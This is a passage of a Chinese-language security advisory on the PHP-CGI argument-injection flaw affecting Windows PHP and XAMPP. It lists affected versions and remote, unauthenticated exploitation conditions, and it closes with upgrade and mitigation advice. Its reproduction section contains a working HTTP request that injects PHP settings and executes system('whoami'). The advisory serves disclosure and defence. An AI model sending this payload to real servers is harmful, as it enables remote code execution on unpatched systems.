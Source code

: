 - PHP 8.2 < 8.2.20  
  
- PHP 8.1 < 8.1.29  
  
PHP Windows版 影响版本理论上包括 8.0.x 和 7.x 和 5.x  
- XAMPP Windows版 影响版本 <= 8.2.12  
  
- XAMPP Windows版 影响版本 <= 8.1.25  
  
- XAMPP Windows版 影响版本 <= 8.0.30  
  
由于PHP 8.0分支、PHP7以及PHP 5官方已不再维护，网站管理员可参考5.防护措施，并于修补建议找到暂时缓解措施。  
## 3.3 漏洞利用条件  
- 用户认证：无需用户认证  
  
- 前置条件：默认配置  
  
- 触发方式：远程  
  
## 4. 漏洞复现  
## 4.1 复现环境  
  
xampp 8.2.12  
## 4.2 复现详情  
##   
```
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.0.136
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brConnection: closeUpgrade-Insecure-Requests: 1If-Modified-Since: Sun, 19 Nov 2023 11:10:25 GMTIf-None-Match: "1443-60a7f6a8cca40"Content-Type: application/x-www-form-urlencodedContent-Length: 32 <?php echo system("whoami");?>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DxUXemrrntp8f7mIB5vbhMOHW4ajCmYmHeic0ScuIp3yx5I43GU4pDyONzNeqyt2HczDUoqMFbRiaBBnicPE06lpA/640?wx_fmt=jpeg&from=appmsg "")  
## 5. 防护措施  
## 5.1 官方修复方案  
##   
  
强烈建议所有使用者升级至PHP官方最新版本8.3.8、8.2.20与8.1.29，对于无法升级的系统可通过下列方式暂时缓解漏洞。  
  
除此之外，由于PHP CGI已是一种过时且易于出现问题的架构，也建议评估迁移至较为安全的Mod-PHP、FastCGI或是PHP-FPM等架构可能性。  
  
官网地址：****https://www.php.net/  
  
更新地址：https://github.com/php/php-src/tags  
## 5.2 缓解漏洞方法  
## 5.2.1. 对于无法升级PHP的用户  
  